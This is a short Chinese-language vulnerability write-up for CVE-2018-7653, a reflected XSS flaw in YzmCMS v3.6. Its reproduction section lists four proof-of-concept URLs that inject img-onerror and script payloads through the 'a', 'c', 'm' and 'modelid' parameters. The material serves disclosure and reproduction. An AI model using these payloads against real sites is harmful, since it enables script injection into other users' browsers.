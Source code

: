 # CVE-2018-7653 YzmCMS v3.6 xss漏洞

### 一、漏洞简介

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS 3.6版本中存在跨站脚本漏洞。远程攻击者可借助‘a’、‘c’或‘m’参数利用该漏洞注入任意的Web脚本或HTML。

### 二、漏洞影响

YzmCMS v3.6

### 三、复现过程

poc


```bash
http://url/YzmCMS/index.php?m=search&c=index&a=initxqb4n%3Cimg%20src%3da%20onerror%3dalert(1)%3Ecu9rs&modelid=1&q=tes 

http://url/YzmCMS/index.php?m=search&c=indexf9q6s%3cimg%20src%3da%20onerror%3dalert(1)%3ej4yck&a=init&modelid=1&q=tes 

http://url/YzmCMS/index.php?m=searchr81z4%3cimg%20src%3da%20onerror%3dalert(1)%3eo92wf&c=index&a=init&modelid=1&q=tes 

http://url/YzmCMS/index.php?m=search&c=index&a=init&modelid=1b2sgd%22%3e%3cscript%3ealert(1)%3c%2fscript%3eopzx0&q=tes
```

参考链接

https://www.anquanke.com/vul/id/1124944